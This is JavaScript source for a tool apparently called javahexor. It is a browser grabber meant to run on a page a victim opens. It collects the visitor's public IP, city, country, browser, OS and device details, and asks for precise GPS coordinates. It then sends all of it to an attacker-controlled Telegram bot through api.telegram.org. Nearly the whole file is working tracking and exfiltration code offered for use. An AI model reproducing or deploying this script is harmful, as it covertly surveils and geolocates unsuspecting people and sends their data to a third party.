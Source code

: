 // For More Info Visit -> https://github.com/Whitecat18/javahexor
// New : Get OS Information, Coordinates of the device The Time does he opens the site. Location, Public Ipv4 , City , Device Basic Info..etc
// [Location Changer needs https with ssl cert to run !! latitude and longitude fetcher]
// Don't change the Line 5 and 6. Because Automation Script Plays a Role Here.
const botToken = 'YOUR_BOT_API_KEY';
const chatId = 'YOUR_CHAT_ID';

const getIP = async () => {
  try {
    const response = await fetch('https://api.ipify.org?format=json');
    const data = await response.json();
    return data.ip;
  } catch (error) {
    console.log(error);
  }
};

const getLocation = async () => {
  try {
    const response = await fetch('https://ipapi.co/json/');
    const data = await response.json();
    return `${data.city}, ${data.region}, ${data.country}`;
  } catch (error) {
    console.log(error);
  }
};

const askLocation = () => {
  return new Promise((resolve, reject) => {
    navigator.geolocation.getCurrentPosition(
      position => {
        const { latitude, longitude } = position.coords;
        resolve({ latitude, longitude });
      },
      error => {
        reject(error);
      }
    );
  });
};

const getBrowserInfo = () => {
  const browserName = navigator.appName;
  const browserVersion = navigator.appVersion;
  const userAgent = navigator.userAgent;
  const platform = navigator.platform;
  const language = navigator.language;
  return `Browser Name: ${browserName}\nBrowser Version: ${browserVersion}\nUser Agent: ${userAgent}\nPlatform: ${platform}\nLanguage: ${language}`;
};

const getOsInfo = () => {
  const os = navigator.platform;
  const osVersion = navigator.oscpu;
  const language = navigator.language;
  return `Operating System: ${os}\nOperating System Version: ${osVersion}\nLanguage: ${language}`;
};

const getDeviceInfo = () => {
  const screenWidth = screen.width;
  const screenHeight = screen.height;
  const colorDepth = screen.colorDepth;
  const cookiesEnabled = navigator.cookieEnabled;
  const doNotTrack = navigator.doNotTrack;
  const plugins = Array.from(navigator.plugins, plugin => `${plugin.name} ${plugin.version}`);
  const mimeTypes = Array.from(navigator.mimeTypes, mimeType => `${mimeType.type}`);
  return `Screen Width: ${screenWidth}\nScreen Height: ${screenHeight}\nColor Depth: ${colorDepth}\nCookies Enabled: ${cookiesEnabled}\nDo Not Track: ${doNotTrack}\nPlugins: ${plugins}\nMime Types: ${mimeTypes}`;
};

Promise.all([getIP(), getLocation()])
  .then(async ([publicIP, location]) => {
    const browserInfo = getBrowserInfo();
    const osInfo = getOsInfo();
    const deviceInfo = getDeviceInfo();
    const message = `Location: ${location}\nPublic IP: ${publicIP}\n\n${browserInfo}\n\n${osInfo}\n\n${deviceInfo}`;
    console.log(message);

    // Ask for location
    try {
      const position = await askLocation();
      const { latitude, longitude } = position;
      const locationMessage = `Latitude: ${latitude}\nLongitude: ${longitude}`;
      const messageLines = [message, locationMessage];

      messageLines.forEach(line => {
        const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(line)}`;
        fetch(url);
      });
    } catch (error) {
      console.log(error);
      const messageLines = [message];

      messageLines.forEach(line => {
        const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(line)}`;
        fetch(url);
      });
    }
  })
  .catch(error => console.log(error));

// Coded By 5mU7X 
